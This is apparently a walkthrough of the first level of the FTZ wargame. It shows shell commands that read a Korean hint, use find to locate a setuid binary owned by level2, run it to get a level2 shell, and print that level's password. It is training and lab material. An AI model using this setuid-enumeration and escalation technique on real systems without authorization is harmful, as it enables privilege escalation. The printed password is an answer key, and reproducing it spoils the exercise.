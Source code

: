 # Level1

`[level1@ftz level1]$ ls -l`

total 12  
-rw-r--r--    1 root     root           47 Apr  4  2000 hint  
drwxr-xr-x    2 root     level1       4096 Dec  7  2003 public_html  
drwxrwxr-x    2 root     level1       4096 Jun  3 11:58 tmp  

`[level1@ftz level1]$ cat hint`

Level2 권한에 setuid가 걸린 파일을 찾는다.

`[level1@ftz level1]$ find / -user level2 -perm -4000 2>/dev/null`  
/bin/ExecuteMe

`[level1@ftz level1]$ ls -l /bin/ExecuteMe`  
-rwsr-x---    1 level2   level1      12868 Aug 19  2014 /bin/ExecuteMe

`[level1@ftz level1]$ /bin/ExecuteMe`

`[level2@ftz level2]$ bash`

`[level2@ftz level2]$ my-pass`  
Level2 Password is "hacker or cracker".

